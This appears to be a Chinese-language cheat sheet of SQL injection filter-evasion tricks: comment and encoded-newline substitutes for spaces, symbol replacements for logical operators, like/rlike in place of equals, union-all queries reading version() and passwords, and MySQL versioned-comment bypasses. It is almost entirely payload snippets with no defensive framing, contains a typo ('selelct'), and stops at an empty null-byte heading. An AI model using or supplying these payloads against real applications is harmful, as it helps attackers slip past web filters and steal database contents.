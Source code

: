 
---


**/**/  ()  %0a  ``  2个空格 替代 空格**

> 
select/**/database()


---


**替换and or not xor**

> 
and ----&gt; &amp;&amp;    ,or ------&gt; ||  ,xor ------&gt; |     ,not -----&gt;  !


---


**替换=**

> 
like   rlike
where id rlike 1
where id like "admin"


---


**union all select**

> 
select password from users where id rlike 1 union all select version();


---


**版本结合**

版本小于50014

> 
select  /*!版本号(如50014) database()*/


---


**注释符加换行绕过**

> 
 select #a database() 
selelct %23%0a database()
(%23表示注释   %0a表示换行)


---


**空字节 **
